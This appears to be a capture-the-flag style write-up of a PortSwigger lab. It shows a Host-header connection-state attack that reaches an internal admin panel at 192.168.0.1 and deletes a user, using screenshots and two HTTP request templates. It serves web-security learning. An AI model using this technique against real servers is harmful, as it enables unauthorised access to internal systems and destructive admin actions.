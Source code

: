 
# Host validation bypass via connection state attack

This lab is vulnerable to routing-based SSRF via the Host header. Although the front-end server may initially appear to perform robust validation of the Host header, it makes assumptions about all requests on a connection based on the first request it receives.

To solve the lab, exploit this behavior to access an internal admin panel located at 192.168.0.1/admin, then delete the user carlos.

Note: Solving this lab requires features first released in Burp Suite 2022.8.1.

This lab is based on real-world vulnerabilities discovered by PortSwigger Research. For more details, check out Browser-Powered Desync Attacks: A New Frontier in HTTP Request Smuggling.

---------------------------------------------

References: 

- https://portswigger.net/web-security/host-header/exploiting

- https://portswigger.net/research/browser-powered-desync-attacks#state





![img](images/Host%20validation%20bypass%20via%20connection%20state%20attack/1.png)

![img](images/Host%20validation%20bypass%20via%20connection%20state%20attack/2.png)

---------------------------------------------


First send a request to the home page using the legitimate “Host” header:



![img](images/Host%20validation%20bypass%20via%20connection%20state%20attack/3.png)


Then quickly send a request to “/admin” changing the “Host” header to “192.168.0.1”:



![img](images/Host%20validation%20bypass%20via%20connection%20state%20attack/4.png)


After a redirection you get to the admin panel and can find the “csrf” value:



![img](images/Host%20validation%20bypass%20via%20connection%20state%20attack/5.png)


After sending a request to “/” with the legitimate “Host” header, send the request to delete the user:

```
GET / HTTP/2
Host: 0a6a005e030d906b874c2bf300490073.web-security-academy.net
...
```

```
POST /admin/delete HTTP/2
Host: 192.168.0.1
...

username=carlos&csrf=CY6qJXGEMwYMKu0z18mEKfFo2zAoE866
```



![img](images/Host%20validation%20bypass%20via%20connection%20state%20attack/6.png)